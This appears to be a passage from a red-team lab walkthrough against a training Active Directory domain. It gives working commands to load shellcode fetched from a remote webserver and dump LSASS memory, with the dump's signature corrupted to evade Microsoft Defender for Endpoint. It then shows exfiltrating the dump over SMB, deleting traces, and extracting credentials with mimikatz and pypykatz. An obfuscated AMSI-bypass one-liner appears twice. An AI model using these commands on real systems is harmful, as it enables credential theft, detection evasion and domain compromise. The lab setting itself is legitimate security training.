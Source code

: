 ```

04/29/2025  07:25 AM    <DIR>          .
04/29/2025  07:25 AM    <DIR>          ..
04/29/2025  07:25 AM         4,486,554 mockingjay.zip
               1 File(s)      4,486,554 bytes
               2 Dir(s)  12,295,819,264 bytes free
```

Now extract the contents from the `mockingjay.zip` archive using tar and attempt to perform an LSASS dump invoking the `nano.bin` shellcode hosted on our student VM webserver.

```
C:\Users\jumpone$\Downloads>tar -xf C:\Users\jumpone$\Downloads\mockingjay.zip

C:\Users\jumpone$\Downloads>C:\Users\jumpone$\Downloads\mockingjay.exe 192.168.100.51 "/nano.bin"

[SNIP]

The minidump has an invalid signature, restore it running:
scripts/restore_signature nano.dmp 📌
Done, to get the secretz run:
python3 -m pypykatz lsa minidump nano.dmp
mimikatz.exe "sekurlsa::minidump nano.dmp" "sekurlsa::logonPasswords full" exit
[+] Module loaded...
[+] Offset to RWX memory region: 0xd271b000
[+] Shellcode Written to RWX Memory Region.
```

⭐ An LSASS dump file is written called `nano.dmp` with an invalid signature since a normal LSASS dump on disk could trigger an MDE detection. We will now exfiltrate this dump file, restore and parse it for credentials.

Before doing so exit out of the winrs session and perform exfiltration using SMB along with a clean-up of all files used on the target.

```
C:\Users\jumpone$\Downloads>exit

PS C:\AD\Tools\mockingjay> copy \\us-jump3.US.TECHCORP.LOCAL\c$\users\jumpone$\Downloads\nano.dmp C:\AD\Tools\mockingjay

PS C:\AD\Tools\mockingjay> del \\us-jump3.US.TECHCORP.LOCAL\c$\Users\jumpone$\Downloads\*
```

Finally, restore the exfiltrated dump signature and parse credentials using mimikatz as follows.

```
PS C:\AD\Tools\mockingjay> C:\AD\Tools\mockingjay\restore_signature.exe C:\AD\Tools\mockingjay\nano.dmp

done, to analize the dump run:
python3 -m pypykatz lsa minidump C:\AD\Tools\mockingjay\nano.dmp
```

Extract credentials from the dump file.


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'